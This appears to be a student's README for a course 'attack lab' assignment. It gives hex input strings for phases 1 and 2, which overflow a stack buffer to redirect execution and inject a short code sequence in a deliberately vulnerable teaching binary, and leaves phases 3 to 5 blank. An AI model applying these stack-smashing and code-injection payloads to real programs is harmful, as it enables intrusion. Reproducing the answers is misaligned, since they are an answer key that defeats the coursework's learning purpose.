 # attack_lab
see assignment details at attacklab.pdf.
see guide at https://github.com/magna25/Attack-Lab/.

## phase 1 solution
```
// 40 bytes
11 11 11 11 11 11 11 11 11 11
11 11 11 11 11 11 11 11 11 11
11 11 11 11 11 11 11 11 11 11
11 11 11 11 11 11 11 11 11 11
// address of touch1 (8 bytes)
74 16 40 00 00 00 00 00
```

## phase 2 solution
```
// injected code with total 40 bytes
48 c7 c7 1f 25 3c 37 c3
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
// address of register and touch2
18 22 65 55 00 00 00 00
a0 16 40 00 00 00 00 00 
```

## phase 3 solution

## phase 4 solution

## phase 5 solution
